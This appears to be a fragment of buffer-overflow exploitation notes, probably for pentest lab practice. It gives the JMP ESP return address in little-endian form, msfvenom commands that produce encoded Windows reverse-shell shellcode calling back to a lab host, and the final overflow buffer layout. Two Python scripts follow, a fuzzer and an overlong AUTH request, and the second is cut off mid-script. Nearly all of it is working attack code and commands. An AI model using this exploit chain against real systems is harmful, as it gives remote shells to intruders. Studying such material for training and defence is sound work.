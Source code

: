 ```
	6.2 Remember put the JMP ESP location in reverse order due to endianness: 5F4A358F will be \x8f\x35\x4a\x5f


7. Generate shellcode and place it:
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.1.111 LPORT=4433 -f python –e x86/shikata_ga_nai -b "\x00"

msfvenom -p windows/shell_reverse_tcp lhost=10.11.1.111 lport=443 EXITFUNC=thread -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -f python -v shellcode

8. Final buffer like:
buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode

```



```
################ sample 1 ################################################
#!/usr/bin/python

import socket,sys

if len(sys.argv) != 3:
    print("usage: python fuzzer.py 10.11.1.111 PORT")
    exit(1)

payload = "A" * 1000

ipAddress = sys.argv[1]
port = int(sys.argv[2])

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ipAddress, port))
    s.recv(1024)
    print "Sending payload"
    s.send(payload)
    print "Done"
    s.close()
except:
    print "Error"
    sys.exit(0)

################ sample 2 ################################################
#!/usr/bin/python
import time, struct, sys
import socket as so

try:
    server = sys.argv[1]
    port = 5555
except IndexError:
    print "[+] Usage %s host" % sys.argv[0]
    sys.exit()

req1 = "AUTH " + "\x41"*1072
s = so.socket(so.AF_INET, so.SOCK_STREAM)
try:
     s.connect((server, port))
     print repr(s.recv(1024))
     s.send(req1)
     print repr(s.recv(1024))
```